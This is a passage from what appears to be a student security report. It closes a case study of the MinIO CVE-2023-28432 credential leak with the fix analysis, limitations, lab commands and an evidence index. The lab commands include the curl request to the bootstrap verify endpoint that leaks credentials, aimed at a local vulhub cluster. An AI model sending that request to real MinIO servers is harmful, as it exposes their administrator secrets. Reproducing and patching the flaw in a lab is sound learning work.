lists four buckets.
Figure 12. Bucket creation, object upload/download and console login all work after the fix.
The vulnerability is a good example of a security problem that is not caused by a memory corruption or a missing input filter. The endpoint was intentionally internal, but it was exposed on a public listener, lacked authentication, and returned a configuration object whose denylist was incomplete. Each of these would be a defensible design decision in isolation; together they produced a high-severity credential leak.
The fix is also instructive because it uses defence in depth: the response no longer contains plaintext secrets, and the handler now requires a valid internode token. Either layer would reduce the impact; together they remove the vulnerability and make accidental regression less likely. The regression tests show that hardening the internal endpoint does not break the public S3 API or the cluster bootstrap process.
Work 1 produced a working secure API, an automated security pipeline and a complete real-CVE case study:
The submitted repository contains the code, the CI configuration, the CVE
write-up, the source diff, the evidence and the fixed compose file in
fixes/CVE-2023-28432/. The main limitations are the educational nature of the
API (random JWT key per start, no refresh/logout/rate limiting, local H2
database) and the fact that SAST/SCA passing does not prove the absence of
vulnerabilities.
3b5dbf9 —
https://github.com/minio/minio/commit/3b5dbf90468b874e99253d241d16d175c2454077minio/CVE-2023-28432 —
https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432export APP_DEMO_PASSWORD='Local-demo-2026!'
mvn spring-boot:run
mvn test
mvn -B -ntp -Psast -DskipTests compile spotbugs:check
bash scripts/run-sca.sh
cd vulhub/minio/CVE-2023-28432
docker compose up -d
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
cd vulhub/minio/CVE-2023-28432
docker compose down
cp /path/to/fixes/CVE-2023-28432/docker-compose.yml docker-compose.yml
docker compose up -d
curl -i -X POST http://127.0.0.1:9000/minio/bootstrap/v1/verify
docker run --rm --entrypoint sh --add-host=host.docker.internal:host-gateway \
minio/mc:latest -c '
mc alias set fixed http://host.docker.internal:9000 \
minioadmin minioadmin-vulhub &&
mc mb fixed/regression-check &&
mc ls fixed'
| Evidence | Location |
|---|---|
| API screenshots (login, 401, XSS, isolation, tampered JWT) | docs/screenshots/api/ |
| GitHub Actions overview | docs/screenshots/ci/01_github_actions_all_checks_passed_39237435374.png |
| SAST report | docs/screenshots/ci/02_sast_report.png |
| SCA report | docs/screenshots/ci/03_sca_report_summary.png |
| CVE environment and version | docs/screenshots/cve/01_vulnerable_cluster.png |
| CVE environment leak | docs/screenshots/cve/02_exploit_env_leak.png |
| Leaked credentials used for admin access | docs/screenshots/cve/03_leaked_creds_impact.png |
| Upstream fix diff | docs/screenshots/cve/04_fix_diff.png |
| Attack blocked after fix | docs/screenshots/cve/05_exploit_blocked.png |
| Regression after fix | docs/screenshots/cve/06_regression_after_fix.png |
| Raw CVE transcripts | docs/cve/CVE-2023-28432/transcripts/ |
| MinIO source diff and NVD record | docs/cve/CVE-2023-28432/source/ |
| Fixed compose file | fixes/CVE-2023-28432/docker-compose.yml |